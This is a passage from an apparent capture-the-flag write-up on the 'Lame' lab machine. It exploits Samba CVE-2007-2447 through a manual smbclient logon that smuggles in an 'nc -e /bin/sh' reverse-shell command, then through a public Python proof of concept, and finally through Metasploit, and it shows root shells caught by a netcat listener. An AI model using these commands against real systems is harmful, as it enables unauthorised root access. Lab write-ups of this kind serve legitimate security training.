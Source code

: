     smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    Password: 
    session setup failed: NT_STATUS_IO_TIMEOUT
    

I get a connection from Lame with a root shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:55410.
    id
    uid=0(root) gid=0(root)
    

### Python Script

Some Googling led me to [this
GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for the
exploit. I can get a shell easily, by following the “install” instructions and
then running the script:

    
    
    root@kali# python usermap_script.py 10.10.10.3 139 10.10.14.24 443
    [*] CVE-2007-2447 - Samba usermap script
    [+] Connecting !
    [+] Payload was sent - check netcat !
    

Sure enough, I get a shell from Lame:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:44666.
    id
    uid=0(root) gid=0(root)
    

### With Metasploit

I can also do this with Metasploit.

    
    
    msf5 > use exploit/multi/samba/usermap_script
    msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
    rhosts => 10.10.10.3
    msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
    payload => cmd/unix/reverse
    msf5 exploit(multi/samba/usermap_script) > set lhost tun0
    lhost => 10.10.14.24
    msf5 exploit(multi/samba/usermap_script) > set lport 443
    lport => 443
    